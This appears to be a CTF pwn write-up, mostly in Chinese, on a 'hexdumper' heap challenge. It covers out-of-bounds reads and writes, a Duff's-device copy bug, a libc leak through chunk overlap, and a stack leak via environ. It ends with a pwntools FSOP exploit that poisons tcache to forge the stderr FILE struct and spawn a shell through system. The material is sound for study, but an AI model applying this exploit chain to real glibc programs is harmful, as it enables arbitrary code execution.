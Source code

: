 
# debug
## ask_for_index  可以输入负数， 在change_byte的时候，只要dumps[idx]值不为空，可以造成任意偏移地址写
改写got表？NO。

## got表无法修改
![](https://r2.20161023.xyz/pic/20250613150037474.png)

## Duff's device
代码中提到，外部地址 https://en.wikipedia.org/wiki/Duff%27s_device，这肯定有用， 不然肯定不会写

```
    register unsigned char *to = dumps[idx1]+len1, *from = dumps[idx2];
    register int count = len2;
    {
        register int n = (count + 7) / 8;
        switch (count % 8) {
        case 0: do { *to++ = *from++;
        case 7:      *to++ = *from++;
        case 6:      *to++ = *from++;
        case 5:      *to++ = *from++;
        case 4:      *to++ = *from++;
        case 3:      *to++ = *from++;
        case 2:      *to++ = *from++;
        case 1:      *to++ = *from++;
                } while (--n > 0);
        }
    }
```

此代码中，如果count=len2=0的话，但是导致to指向内容的8个字节被追加到from最后，那怎么让len2=0呢，
题目中提供了resize方法，使'size_t len2 = dump_sizes[idx2];'中len2=0

## 栈上任意地址读
只要把offset设置的很大很大，idx就可以随便设置，没有限制，能泄漏出所有类型的地址
```
    size_t len = dump_sizes[idx];

    printf("\tOffset: ");
    size_t offset = 0;
    scanf("%lu", &offset);
    if (offset >= len) {
        // 程序上任意地址读?offset = 0xffff-ffff-fffff-ffff
        // 指向栈？堆？libc，那泄漏简单了
        printf("\tOffset is bigger than dump size. %lu >= %lu\n", offset, len);
        return;
    }
```

## _IO_2_1_stdin_
![](https://r2.20161023.xyz/pic/20250619164739368.png)


## 泄漏libc
- 0x21-->0x421, 复写chunksize， 制造堆重叠
- 然后free，进unsortbin，fd保留main_arena指针，
- 再申请第一chunk，让覆盖区域内的原chunk（p1）和新chunk重叠
- show p1，就泄漏libc

## environ
```
pwndbg> x/10gx 0x218d78 +  0x7f87558d4000
0x7f8755aecd78 <environ>:       0x00007ffed97c08c8      0x0000000000000000
0x7f8755aecd88 <tiocgsid_does_not_work.0>:      0x0000000000000000      0x000055d92348d000
0x7f8755aecd98: 0x0000000000000000      0x0000000000000000
0x7f8755aecda8: 0x0000000000000000      0x0000000000000000
0x7f8755aecdb8 <ecvt_buffer+8>: 0x0000000000000000      0x0000000000000000
```

```
00:0000│ rsp 0x7ffed97c0780 ◂— 0x100000000
01:0008│-008 0x7ffed97c0788 ◂— 0x958220b31b7ac00
02:0010│ rbp 0x7ffed97c0790 —▸ 0x7ffed97c0830 —▸ 0x7ffed97c0890 ◂— 0
03:0018│+008 0x7ffed97c0798 —▸ 0x7f87558fe3b8 (__libc_start_call_main+120) ◂— mov edi, eax
04:0020│+010 0x7ffed97c07a0 —▸ 0x7ffed97c07e0 —▸ 0x55d921f9fd70 —▸ 0x55d921f9d180 ◂— endbr64
05:0028│+018 0x7ffed97c07a8 —▸ 0x7ffed97c08b8 —▸ 0x7ffed97c1584 ◂— './hexdumper'
06:0030│+020 0x7ffed97c07b0 ◂— 0x121f9c040
07:0038│+028 0x7ffed97c07b8 —▸ 0x55d921f9dde5 ◂— push rbp

```
environ到ret的偏移量为0x130, 可以算出ret的栈地址
```
environ - ret = 0x130
0x00007ffed97c08c8 - 0x7ffed97c0798
```


# FSOP

Finally, we do the poisoning to get an almost arbitrary write on libc. To get code execution with it this is a good resource , though it is somewhat outdated. From experience I can say that the libc’s GOT table is now FULL RELRO and dtor_list is no longer close to PTR_MANGLE cookie. Though FSOP still works like a charm and nothing suggests that anything will change. I use a payload I’ve seen only ptr-yudai use in their’s write-ups, but it’s the best one I’ve seen.

```
# Poison tcache pointer to point to the stderr FILE struct.
change_bytes(io, c, 0x20, p64(((libc.sym['_IO_2_1_stderr_']) ^ (xor_key))))
x = create_dump(io, 0xf0-8)
# Malloc returned a pointer inside of libc, with which we will do FSOP.
target = create_dump(io, 0xf0-8)

# Payload I have stolen from ptr-yudai.
file = FileStructure(0)
file.flags = u64(p32(0xfbad0101) + b";sh\0")
file._IO_save_end = libc.sym["system"]
file._lock = libc.sym["_IO_2_1_stderr_"] - 0x10
file._wide_data = libc.sym["_IO_2_1_stderr_"] - 0x10
file._offset = 0
file._old_offset = 0
file.unknown2 = b"\x00"*24+ p32(1) + p32(0) + p64(0) + \
    p64(libc.sym["_IO_2_1_stderr_"] - 0x10) + \
    p64(libc.sym["_IO_wfile_jumps"] + 0x18 - 0x58)
change_bytes(io, target, 0, bytes(file))

io.sendline(b"cat flag")
io.sendline(b"cat flag")

io.intearactive()
```

[参考链接](https://poniponiponiponiponiponiponiponiponi.github.io/ctf/pwn/c/rust/risc-v/2025/05/16/Challenges-I-Wrote-For-BtS-CTF-2025.html)